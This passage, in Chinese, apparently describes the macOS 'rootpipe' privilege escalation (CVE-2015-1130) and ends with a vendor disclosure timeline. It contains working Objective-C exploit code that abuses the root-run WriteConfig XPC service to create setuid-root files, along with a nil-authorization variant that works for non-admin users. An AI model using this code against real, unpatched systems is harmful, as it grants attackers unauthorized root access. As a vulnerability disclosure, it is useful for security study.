 这正是我想要的，给writeconfig XPC服务创建一个XPC客户端，并且这个服务是以root权限运行的。

![enter image description here](http://drops.javaweb.org/uploads/images/35b11393dbcd62c54ebaf77e411afdcc4e572f7f.jpg)

唯一的问题就是我应该给authenticateUsingAuthorization传递什么参数，从systemsetup文件当中找到如下：

![enter image description here](http://drops.javaweb.org/uploads/images/0bf702426dc10c2eaed281b82551ec246429c6b9.jpg)

看起来[SFAuthorization authorization]可以来做触发，下面是我的新的exp：

```
id auth = [objc_lookUpClass("SFAuthorization") authorization];
id sharedClient =
    [objc_lookUpClass("WriteConfigClient") sharedClient];
[sharedClient authenticateUsingAuthorizationSync: auth];
id tool = [sharedClient remoteProxy];

[tool createFileWithContents:data
                        path:[NSString stringWithUTF8String:target]
                  attributes:@{ NSFilePosixPermissions : @04777 }];

```

文件最终创建，setuid已经设置：

```
-rwsrwxrwx 1 root wheel 25960 Apr 1 19:29 rootpipe.tmp

```

既然setuid已经设置并且拥有者是root，我们就有有了一个提权漏洞。

上面的代码适用于10.9及以后版本，10.7.x和10.8.x有些类文件名略不相同。

但是上面的代码仍然有一个问题，只可以在admin的权限下运行，之前提到过几乎所有的OS X用户都是admin。

最终找到一个适用所有用户使用的方法，很简单，只要把[SFAuthorization authorization]:的结果替换为发送nil到authenticateUsingAuthorizationSync。

```
[sharedClient authenticateUsingAuthorizationSync: nil];

```

0x03 Timeline
=====

```
Oct 2nd 2014: First discovery
Oct 3rd 2014: First contact with Apple Product Security Team
Oct 14th 2014: Exploit code shared with Apple
Oct 24th 2014: Initial full disclosure date set to Jan 12th 2015
Oct 16th 2014: Release of OS X 10.10 Yosemite, vulnerable to rootpipe
Nov 14th 2014: Apple requested to postpone disclosure
Nov 17th 2014: Release of OS X 10.10.1, also vulnerable
Jan 12th 2015: Joint decision between Apple and TrueSec to postpone disclosure due to the amount of changes required in OS X
Jan 16th 2015: CVE-2015-1130 created by Apple
Jan 27th 2015: Release of OS X 10.10.2, also vulnerable
March 2nd 2015: Release of OS X 10.10.3 public beta, issue solved
April 1st 2015: Apple confirmed that release is coming the second week of April
April 8th 2015: Release of OS X 10.10.3
April 9th 2015: Full disclosure

```
